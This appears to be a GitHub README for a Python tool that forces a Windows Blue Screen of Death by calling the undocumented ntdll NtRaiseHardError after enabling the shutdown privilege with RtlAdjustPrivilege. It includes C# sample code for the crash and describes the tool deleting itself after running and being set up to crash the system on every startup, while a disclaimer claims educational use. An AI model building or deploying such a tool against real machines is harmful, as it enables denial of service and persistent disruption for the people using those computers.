 # Windows BSOD made in python
This project was inspired from a undocumented function in ntdll.dll.
The function is based in C# but using ctypes python makes it possible

[document](https://www.pinvoke.net/default.aspx/ntdll/NtRaiseHandError.html)

Requires the SeShutdownPriviledge, otherwise will fail.
Use RtlAdjustPrivilege with Privilege parameter 19 to enable SeShutdownPriviledge.
```
C# Sample Code:
    Console.Write("Press any key to trigger a BSOD.");
    Console.ReadKey();
    RtlAdjustPrivilege(19, true, false, out bool previousValue);
    NtRaiseHardError(0xC0000420, 0, 0, IntPtr.Zero, 6, out uint Response);
```
Python version

- Supports compiling using pyinstaller and Nuitka
- Removes itself from execution directory automatically

# Restart prestance 
Modify Line 15:

```executable = "BSOD.exe.malz"``` to ```"executable = "BSOD.exe"```
*note this will cause it to BSOD on start up*

# Disclaimer
This tool is intended for educational purposes and has been developed for troubleshooting the identification of BSOD (Blue Screen of Death) causes. Its usage for any illegal activities is strictly prohibited, as it is meant exclusively for educational purposes.
